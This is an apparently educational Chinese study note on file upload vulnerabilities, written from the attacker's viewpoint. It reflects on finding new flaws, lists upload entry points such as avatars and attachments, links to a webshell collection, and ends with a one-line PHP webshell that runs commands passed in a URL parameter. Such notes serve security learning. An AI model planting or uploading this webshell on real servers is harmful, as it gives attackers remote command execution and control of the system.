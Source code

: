 文件上传漏洞
============

> 文档还需要不断的修改和补充

[TOC]

> 整篇文章从攻击者的角度来思考。



个人思考
--------

光知道攻击手段是没有用的，因为已知的攻击手段都已知，那么就会有相应的防护手段，这样的能力只能使自己永远成为一个脚本小子，去攻击一些没有修复的已知漏洞，不能走在前端漏洞的发布者，那么就会失去自己的竞争力，不过你要首先能够成为脚本小子，理解攻击的原理，才能走到下一步。

重要的是在学习中如何取发现这个漏洞？

那么应该如何做到，又如何提高这种能力呢？？？

首先还是要知道客户端与服务器端中交互的入口，知道有哪些入口，就知道了攻击的入口。

这样我们在分析漏洞，或者寻找一个新的漏洞就找到了入手点，

哪么接下来应该如何取挖掘这样一个新的漏洞，需要掌握哪些关键信息？

一般一个应用来说，分为两层：一层是第三方框架，一层是开发人员根据业务需求实现的代码。

第三方框架可以抽象为，代码基础理念(一些可以已经被认知为安全的代码)

那么就可以得出我们需要掌握的信息：

- 开发人员的开发习惯，在什么方面会出现遗漏？

  比如：js就是开发人员不关注数据在前端页面的显示，就容易导致存储性的xss攻击。

- 本身的代码基础有逻辑漏洞

  比如：宽字节过滤，我们所思考的是如何去掉反斜杠，正常操作是不行的，需要往他的原理进行深入思考，考虑不到字符编码的不兼容的带来对反斜杠进行合并的问题。

如何提高？

- 开发人员的代码习惯，需要不断进行代码升级，进行记录分析
- 本身的代码逻辑，需要对各种**第三方应用和各种语言标准以及其他规定**进行分析，从安全的角度不断的反思。

至于分析的角度和反思的角度还需要在实战中不断的磨合和总结，后面补充。





几句话介绍
----------

文件上传漏洞就是获取shell的一步，需要上传一个被攻击的服务器可以解析执行的文件，通过这个文件（一句话木马）来控制服务器。

通常可以上传文件的入口有：个人信息设置中的头像上传，文章编辑中的图片附件，以及评论中的图片上传等

这里提供PHP的shell文件，其他的可以查阅[最新webshell大合集](https://blog.csdn.net/mypc2010/article/details/77776870)  

```php
<?php passthru($_GET['cmd']); ?>
```
